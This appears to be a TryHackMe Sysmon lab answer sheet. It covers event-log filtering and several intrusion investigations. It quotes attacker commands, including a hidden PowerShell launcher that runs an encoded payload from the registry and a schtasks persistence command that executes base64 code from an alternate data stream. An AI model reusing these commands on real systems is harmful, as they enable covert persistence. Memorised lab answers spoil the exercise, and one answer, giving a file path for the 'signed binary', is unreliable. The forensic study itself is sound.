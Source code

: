 # Sysmon

### Cutting out the Noise
- How many event ID 3 events are in C:\Users\THM-Analyst\Desktop\Scenarios\Practice\Filtering.evtx?<br />
Run the following command: `(Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Practice\Filtering.evtx -FilterXPath '*/System/EventID=3').Count`: <br />
![image](https://github.com/user-attachments/assets/c8ef9e43-7bed-4cd8-981a-1563406cbba7)<br />
`73,591`
- What is the UTC time created of the first network event in C:\Users\THM-Analyst\Desktop\Scenarios\Practice\Filtering.evtx? `2021-01-06 01:35:50.464`

### Practical Investigations
- What is the full registry key of the USB device calling svchost.exe in Investigation 1?  <br />
Run `Get-WinEvent -Path .\\Investigation-1.evtx -FilterXPath ‘*/System/EventID=12 or */System/EventID=13 or */System/EventID=14’ -Oldest | Select-Object -Property *`: <br />
![image](https://github.com/user-attachments/assets/b7050336-750d-43fa-a8e7-42069d2e78cb)<br />
Run `HKLM\System\CurrentControlSet\Enum\WpdBusEnumRoot\UMB\2&37c186b&0&STORAGE#VOLUME#_??_USBSTOR#DISK&VEN_SANDISK&PROD_U3_CRUZER_MICRO&REV_8.01#4054910EF19005B3&0#\FriendlyName`
- What is the device name when being called by RawAccessRead in Investigation 1? <br />
![image](https://github.com/user-attachments/assets/8e0089e0-f86b-47c8-8e53-fe3b35ca64d1)<br />
`\Device\HarddiskVolume3`
- What is the first exe the process executes in Investigation 1? `rundll32.exe`
- What is the full path of the payload in Investigation 2? <br />
![image](https://github.com/user-attachments/assets/4204d125-3943-437a-bad5-17b9a345e796)<br />
`C:\Users\IEUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\S97WTYG7\update.hta`<br />
- What is the full path of the file the payload masked itself as in Investigation 2? `C:\Users\IEUser\Downloads\update.html`
- What signed binary executed the payload in Investigation 2?<br />
![image](https://github.com/user-attachments/assets/8e56b812-c710-428e-bedc-912dfb58e89f)<br />
`C:\Users\IEUser\Downloads\update.html`
- What is the IP of the adversary in Investigation 2? <br />
![image](https://github.com/user-attachments/assets/cfd233a8-b486-4730-beb1-cac6b2c742f6)<br />
`10.0.2.18`
- What back connect port is used in Investigation 2? `4443`
- What is the IP of the suspected adversary in Investigation 3.1? <br />
Select the last network connection event: <br />
![image](https://github.com/user-attachments/assets/60981e4b-dc72-4bdf-a8ae-ece71838d769)<br />
`172.30.1.253`
- What is the hostname of the affected endpoint in Investigation 3.1? `DESKTOP-O153T4R` 
- What is the hostname of the C2 server connecting to the endpoint in Investigation 3.1? `empirec2`
- Where in the registry was the payload stored in Investigation 3.1? `HKLM\SOFTWARE\Microsoft\Network\debug`
- What PowerShell launch code was used to launch the payload in Investigation 3.1?<br />
![image](https://github.com/user-attachments/assets/f6f2a3e3-f530-448c-ad86-9c9f282a502b)<br />
`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKLM:Software\Microsoft\Network debug).debug);start -Win Hidden -A \"-enc $x\" powershell";exit;`
- What is the IP of the adversary in Investigation 3.2? <br />
Filter for network connections (ID = 3) to find the answer: <br />
![image](https://github.com/user-attachments/assets/69a20710-d7cc-45cd-9c5f-8dd2c0e7f98c)<br />
`172.168.103.167`
- What is the full path of the payload location in Investigation 3.2?<br />
![image](https://github.com/user-attachments/assets/a8cccc48-32d3-4ea4-b857-f707c2d0cf13)<br /> 
`c:\users\q\AppData:blah.txt`
- What was the full command used to create the scheduled task in Investigation 3.2? `"C:\WINDOWS\system32\schtasks.exe" /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String($(cmd /c ''more < c:\users\q\AppData:blah.txt'''))))\""`
- What process was accessed by schtasks.exe that would be considered suspicious behavior in Investigation 3.2? `lsass.exe`
- What is the IP of the adversary in Investigation 4? <br />
![image](https://github.com/user-attachments/assets/7ede9c0c-df78-4ef0-985d-31af9c048904)<br />
`172.30.1.253`
- What port is the adversary operating on in Investigation 4? `80`
- What C2 is the adversary utilizing in Investigation 4? `empire`
